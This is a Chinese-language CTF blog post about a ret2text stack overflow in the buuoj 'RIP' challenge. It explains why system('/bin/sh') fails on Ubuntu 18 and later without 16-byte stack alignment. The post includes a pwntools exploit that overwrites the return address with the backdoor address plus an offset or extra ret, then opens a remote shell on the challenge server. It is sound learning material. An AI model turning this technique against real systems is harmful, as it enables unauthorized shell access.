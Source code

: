 ```yaml
---
title: 「Pwn」Ubuntu18 中 64位 ELF 在调用 system 时候可能出现的问题
date: 2022-03-31
tags: ['Pwn', cheatsheet, CTF]
authors: [nova]

---
```


# Ubuntu18中64位ELF在调用system时候可能出现的问题

这几天配好了Ubuntu18，测试的时候出现了一个问题。

研究了好久才解决，记录一下。

[题目\__Buuoj__RIP](https://buuoj.cn/challenges#rip)

<!--truncate-->

### 问题

这题是最基础的一个栈溢出题。有后门函数直接`system("/bin/sh");`，什么保护都没开，直接把返回地址覆盖按理来说就可以了。

本地测试的时候也确实是这样的，但是远程却出现了问题。

于是我拿自己的Ubuntu18测试了一下，发现同样出现了错误。

一通搜索之后才发现，ubuntu18及以上的libc中，64位ELF程序调用system函数时候需要考虑堆栈平衡

### 解决方法

改变Payload的长度或者进行栈转移即可



主要思路就是改变栈的地址。

这里贴一下exp

```python
from pwn import *
context(log_level='debug', arch='amd64', os='linux')

# sh = process("./pwn1")
sh = remote("node4.buuoj.cn", 29726)

# sh.recvuntil('please input\n')

backdoor_addr = 0x0401186
# payload = b'a'*(0xf+8) + p64(backdoor_addr) # 正常思考，但是没有对齐所以会错误
# payload = b'a'*0xf + p64(backdoor_addr) # exp1, 但是稍微有点没看明白为什么这样可以:<
# payload = b'a'*(0xf+8) + p64(backdoor_addr) + p64(backdoor_addr - 1) # exp 2, 这里的backdoor_addr - 1对应了一个retn，换成其他的也可以，也是为了堆栈平衡
payload = b'a'*(0xf+8) + p64(backdoor_addr + 1) # exp 3, +1 让call_system函数中检查对齐的那个地址对齐0x10
"""
不一定是+1,最多16次肯定能对齐,还不行就栈转移吧www
"""
sh.sendline(payload)
sh.interactive()
```

### 深入

在这里我准备深入研究一下此时的堆栈，也算是gdb的初探门径

> 寄，Ubuntu18的gdb好像炸了。等修好了再补充:<



## 参考博客

[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)

[ret2text涉及到的堆栈平衡问题](https://blog.csdn.net/qq_41560595/article/details/112161243)

[升级gcc7.3之后MOVAPS指令导致的程序coredump解决过程](https://www.pianshen.com/article/8326860581/)